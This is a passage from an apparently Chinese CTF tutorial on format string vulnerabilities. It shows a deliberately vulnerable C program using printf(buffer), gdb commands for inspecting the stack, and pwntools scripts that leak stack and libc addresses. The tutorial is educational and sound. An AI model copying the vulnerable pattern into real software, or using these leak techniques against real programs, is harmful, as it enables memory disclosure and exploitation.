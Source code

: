 ```c title="fsb-stack.c"
        memset(buffer, 0, BUFLEN);
        fgets(buffer, BUFLEN, stdin);
        printf(buffer);
    }

    return 0;
}
```

先运行一下这个程序，我们可以发现这样的格式化字符串确实会泄露一些栈上的数据
![](https://philfan-pic.oss-cn-beijing.aliyuncs.com/web_pic/CS__CTF__assets__03-pwn.assets__20241216193509.webp)


使用gdb把断点下在`printf`函数上，然后运行程序

```shell
b printf
stack 80 # pwndbg
telescope -l 80 # gdb
```

![](https://philfan-pic.oss-cn-beijing.aliyuncs.com/web_pic/CS__CTF__assets__03-pwn.assets__20241216194547.webp)

可以看到，栈上有很多我们感兴趣的地址

比如说我们想把main函数的地址泄露出来，可以通过`%number$p`来泄露

那么这个number，相当于目标地址相对于`printf`函数的偏移，如何计算呢？

5(有五个参数存在寄存器上) + 0x220/8 = 73

```python title="泄露栈上的数据"
from pwn import *
context(arch='x86_64',log_level='debug')
elf = ELF("./fsb-stack")
script = \
        '''
            b printf 
            c
        '''
p = gdb.debug("./fsb-stack",gdbscript = script) # 断点在printf,且自动打开gdb调试

fmt = "%71$p"
p.sendline(fmt)
leak = int(p.recvline(),16)
log.success(hex(leak))
p.interactive()
```

![](https://philfan-pic.oss-cn-beijing.aliyuncs.com/web_pic/CS__CTF__assets__03-pwn.assets__20241216195212.webp)


如果我还想泄露libc的地址



```python
libc = ELF("/lib/x86_64-linux-gnu/libc.so.6")

fmt = "%71$p"
p.sendline(fmt)
leak = int(p.recvline(),16)  # 接收到的数据是16进制的，需要转换为int，这里是__libc_start_main的真实地址

offset = 171368 # 看下边注释,需要手动计算
libc.address = leak - offset 
print("leak_start_main=",(hex(leak)))
print("libc = ",hex(libc.address))
```
